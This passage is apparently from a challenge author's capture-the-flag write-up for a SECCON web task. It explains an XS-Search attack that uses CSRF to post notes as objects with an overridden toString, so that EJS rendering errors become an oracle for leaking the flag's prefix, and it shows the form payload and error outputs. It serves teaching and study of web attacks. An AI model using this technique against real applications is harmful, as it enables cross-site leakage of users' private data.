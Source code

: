 My solution is a XS-Search attack. The goal is to construct an oracle to judge the prefix of a flag.

#### Step 1: CSRF and posting object notes

You can make a bot post notes as objects by CSRF.
For example, if the form body is
```
note[toString]=x&note[a]=SECCON{a&note[b]=SECCON{b&note[c]=SECCON{c&...
```
then the note is the following object:
```javascript
{
  "toString": "x",
  "a": "SECCON{a",
  "b": "SECCON{b",
  "c": "SECCON{c",
  /* ... */
}
```

Note the following:

- The note will cause an error when rendered in EJS because the `toString` is not a function.
- The note will come up with searches for `?search=SECCON{a`, `?search=SECCON{b`, `?search=SECCON{c`, and so on.

#### Step 2: Two kinds of EJS rendering errors

There are two kinds of errors caused by `note[toString]=x` in EJS rendering.

Error A (if the note is hit first for a search):
```html
/app/views/index.ejs:22
    20|         <section class="modal-card-body">
    21|           <article class="message">
 >> 22|             <pre class="message-body is-dark"><%=
    23|               hitCount > 0 && filteredNotes[0] || 'Not found ...'
    24|             %></pre>
    25|           </article>

Cannot convert object to primitive value
```

Error B (otherwise):
```html
/app/views/index.ejs:70
    68|             <% notes.forEach((note) => { %>
    69|               <article class="message">
 >> 70|                 <pre class="message-body"><%= note %></pre>
    71|               </article>
    72|             <% }); %>
    73|           </div>

Cannot convert object to primitive value
```


[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/